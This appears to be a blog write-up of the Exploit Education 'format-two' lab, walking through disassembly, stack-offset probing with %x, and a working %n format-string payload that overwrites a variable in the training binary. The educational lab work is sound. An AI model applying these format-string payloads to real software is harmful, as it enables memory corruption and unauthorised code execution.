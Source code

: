 ```yaml
---
layout: post
title: Format Two Writeup - Exploit Education Lab Exercise
categories: [security, binary-exploit, reverse-engineering, friday-gems]
tags: [security, binary-exploitation, friday-gems]
description: A comprehensive writeup that helps to understand format-two exercise - format string vulnerability with learning resources.
comments: true
---
```


## Previous Writeup: 

1. [Stack Zero Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/12/exploit-education-stack-zero-exercise-writeup.html)
2. [Stack One Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/20/exploit-education-stack-one-exercise-writeup.html)
3. [Stack Two Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/26/exploit-education-stack-two-exercise-writeup.html)
4. [Stack Three Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/27/exploit-education-stack-three-exercise-writeup.html)
5. [Stack Four Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/28/exploit-education-stack-four-exercise-writeup.html)
6. [Stack Five Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/02/04/exploit-education-stack-five-exercise-writeup.html)
7. [Stack Six Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/02/26/exploit-education-stack-six-exercise-writeup.html)
8. [Format Zero Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/03/10/exploit-education-format-zero-exercise-writeup.html)
9. [Format One Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/03/31/exploit-education-format-one-exercise-writeup.html)

If you haven't done setting-up your lab, feel free to check out my previous article on [Exploit.education lab setup](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/06/exploit-education-lab-setup.html)

## Quick Overview

Similar to [Format One Writeup](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/03/31/exploit-education-format-one-exercise-writeup.html), Format Two exercise motives are smashing the stack, overwrite arbitrary memory address or variable. However, this Format Two challenge revolves around [`Format String Vulnerability`](https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/) and quite challenging when exploiting in 64-bit architecture binary.

## Disassemble

Disassembling the code will get you overall idea behind the format-two code, One can use `gdb ./format-two` to start debugging it in runtime.

1. `gdb ./format-two`
2. Type `disassemble main` to get the disassembled code (assembly)

```assembly
   0x0804852c <+0>:     lea    ecx,[esp+0x4]
   0x08048530 <+4>:     and    esp,0xfffffff0
   0x08048533 <+7>:     push   DWORD PTR [ecx-0x4]
   0x08048536 <+10>:    push   ebp
   0x08048537 <+11>:    mov    ebp,esp
   0x08048539 <+13>:    push   ebx
   0x0804853a <+14>:    push   ecx
   0x0804853b <+15>:    sub    esp,0x100
   0x08048541 <+21>:    mov    ebx,ecx
   0x08048543 <+23>:    sub    esp,0xc
   0x08048546 <+26>:    push   0x8048620
   0x0804854b <+31>:    call   0x8048330 <puts@plt>
   0x08048550 <+36>:    add    esp,0x10
   0x08048553 <+39>:    cmp    DWORD PTR [ebx],0x1
   0x08048556 <+42>:    jle    0x80485a3 <main+119>
   0x08048558 <+44>:    sub    esp,0x4
   0x0804855b <+47>:    push   0x100
   0x08048560 <+52>:    push   0x0
   0x08048562 <+54>:    lea    eax,[ebp-0x108]
   0x08048568 <+60>:    push   eax
   0x08048569 <+61>:    call   0x8048350 <memset@plt>
   0x0804856e <+66>:    add    esp,0x10
   0x08048571 <+69>:    mov    eax,DWORD PTR [ebx+0x4]
   0x08048574 <+72>:    add    eax,0x4
   0x08048577 <+75>:    mov    eax,DWORD PTR [eax]
   0x08048579 <+77>:    sub    esp,0x4
   0x0804857c <+80>:    push   0x100
   0x08048581 <+85>:    push   eax
   0x08048582 <+86>:    lea    eax,[ebp-0x108]
   0x08048588 <+92>:    push   eax
   0x08048589 <+93>:    call   0x8048340 <strncpy@plt>
   0x0804858e <+98>:    add    esp,0x10
   0x08048591 <+101>:   sub    esp,0xc
   0x08048594 <+104>:   lea    eax,[ebp-0x108]
   0x0804859a <+110>:   push   eax
   0x0804859b <+111>:   call   0x8048515 <bounce>
   0x080485a0 <+116>:   add    esp,0x10
   0x080485a3 <+119>:   mov    eax,ds:0x8049868
   0x080485a8 <+124>:   test   eax,eax
   0x080485aa <+126>:   je     0x80485be <main+146>
   0x080485ac <+128>:   sub    esp,0xc
   0x080485af <+131>:   push   0x804866c
   0x080485b4 <+136>:   call   0x8048330 <puts@plt>
   0x080485b9 <+141>:   add    esp,0x10
   0x080485bc <+144>:   jmp    0x80485ce <main+162>
   0x080485be <+146>:   sub    esp,0xc
   0x080485c1 <+149>:   push   0x80486ab
   0x080485c6 <+154>:   call   0x8048330 <puts@plt>
   0x080485cb <+159>:   add    esp,0x10
   0x080485ce <+162>:   sub    esp,0xc
   0x080485d1 <+165>:   push   0x0
   0x080485d3 <+167>:   call   0x8048360 <exit@plt>
```

Before taking a look at the code, if you disassembled the format-two using gdb to view the assembly instruction, you may notice the puts, fgets, sprintf function calls with parameters. So basically when you hit `r` in gdb without breakpoint,

1. Greet with `Welcome to phoenix/format-two, brought to you by https://exploit.education` message via Puts (aka printf) method
2. If the program receives an argument from the command line (i.e., argc is greater than 1), it initializes a character array "buf" with size 256 and sets all its values to zero using "memset" function.
3. It then copies the first argument passed (i.e., argv[1]) into the "buf" array using "strncpy" function. If the length of the argument exceeds the size of the buffer (256), it will be truncated.
4. The program then calls the "bounce" function with the "buf" array as an argument.
5. If the "changeme" variable is not zero, it prints "Well done, the 'changeme' variable has been changed correctly!" to the standard output.
6. If the "changeme" variable is zero, it prints "Better luck next time!" to the standard output.
7. The program exits with status code 0.

## Memory Allocation - Exploit Strategy

 If you take closer look at the memory allocation, `changeme` variable it's placed on the stack before `buffer` char array. There is no way you could overflow buffer overflow variable and overwrite `changeme` variable. However, introducing `%n` format modifier string can perform this magic by overwriting the address using `format string vulnerability`. 

 Our first step is to print "AAAA" temporarily and find the padding where it gets stored in the stack memory. We can start our exploration with couple of %x which helps in printing the address of the stack,
 
```shell
user@phoenix-amd64:/opt/phoenix/i486$ /opt/phoenix/i486/format-two $'AAAA%x.%x.\n'
Welcome to phoenix/format-two, brought to you by https://exploit.education
AAAAffffd8ca.100.
Better luck next time!
```
Our experiment continues untill we find `AAAA` or 41414141 in the stack and eventually we come to know that it occurs at the 12th padding,

```shell
user@phoenix-amd64:/opt/phoenix/i486$ /opt/phoenix/i486/format-two $'AAAA%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x\n'
Welcome to phoenix/format-two, brought to you by https://exploit.education
AAAAffffd8a7.100.0.f7f84b67.ffffd700.ffffd6e8.80485a0.ffffd5e0.ffffd8a7.100.3e8.41414141.252e7825.78252e78
Better luck next time!
```

Now that we found the padding, it's time to find the exact memory address of `changeme` variable. For 64-bit binary `format-two` it should be `0x600af0` and 32-bit binary should be `0x08049868`. While performing the exploit, I personally found 64-bit arch challenging due to few reasons discussed in the next section.

So, let's come up with a payload for 32-bit arch format-two binary first,

```shell
$'\x08\x04\x98\x68%x %x %x %x %x %x %x %x %x %x %x %n \n'
```

However, if you take a closer look, most AT&T and Intel system uses [little endian system](https://en.wikipedia.org/wiki/Endianness). So, we might need to rewrite the address in reverse order.

```shell
$'\x68\x98\x04\x08%x %x %x %x %x %x %x %x %x %x %x %n \n'
```

## Challenge faced while exploiting 64-bit binary

As mentioned above while going through memory address of `changeme` variable in the stack of 64-bit binary should be `0x600af0` and it contains unreasonable characters 😥 - `\x00` and  `\0a` null character & new line terminator which is interpreted by the `strncpy` function and completely terminates the argument while copying to the buffer.

However, there might be better strategy to overcome this issue by altering environment variables that may push the address or placing the address to the end of the string in payload.

## Exploit

Now, our strategy should be,

1. Input `format string` as `\x68\x98\x04\x08%x %x %x %x %x %x %x %x %x %x %x %n \n`
2. Now, `printf` overwrites the `changeme` using random address from stack.

```shell
user@phoenix-amd64:/opt/phoenix/i486$ /opt/phoenix/i486/format-two $'\x68\x98\x04\x08%x %x %x %x %x %x %x %x %x %x %x %n \n'
Welcome to phoenix/format-two, brought to you by https://exploit.education
h�ffffd8ac 100 0 f7f84b67 ffffd700 ffffd6e8 80485a0 ffffd5e0 ffffd8ac 100 3e8
Well done, the 'changeme' variable has been changed correctly!
```

There you go! 🎉 You've officially `pwned` and you may eventually gain code execution in upcoming exercises 🪲

![buffer-overflow-pride](/assets/media/elementary-sherlock.jpg)

## Source and Reference:

1. Format Two Exercise: [Exploit Education](https://exploit.education/phoenix/format-two/)


## Closing Note:

I hope this post is helpful for vulnerability researcher 🔍 & code reviewers, For bugs,hugs & discussion, DM in [Twitter](https://twitter.com/sshivasurya). Opinions are my own and not the views of my employer.
